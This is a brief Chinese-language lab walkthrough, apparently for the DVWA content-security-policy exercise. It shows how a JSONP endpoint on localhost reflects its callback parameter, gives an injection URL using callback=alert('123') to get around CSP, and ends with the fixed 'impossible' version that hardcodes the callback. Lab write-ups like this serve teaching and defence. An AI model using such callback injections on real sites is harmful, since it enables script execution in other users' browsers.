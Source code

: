 一樣
```
http://localhost/vulnerabilities/csp/source/jsonp.php?callback=solveSum

solveSum({"answer":"15"})

--


http://localhost/vulnerabilities/csp/source/jsonp.php?callback=1111111111

1111111111({"answer":"15"})


```


### 這其實就 jsonp 的方式 可以繞過同源政策
https://www.w3schools.com/js/js_json_jsonp.asp



那麼搞清楚就簡單了。
```
http://localhost/vulnerabilities/csp/source/jsonp.php?callback=alert('123')

```

OK






## impossible


jsonp.php 
```
<?php
header("Content-Type: application/json; charset=UTF-8");

$outp = array ("answer" => "15");

echo "solveSum (".json_encode($outp).")";
?>

```


一樣是jsonp 的方式，不過寫死了。



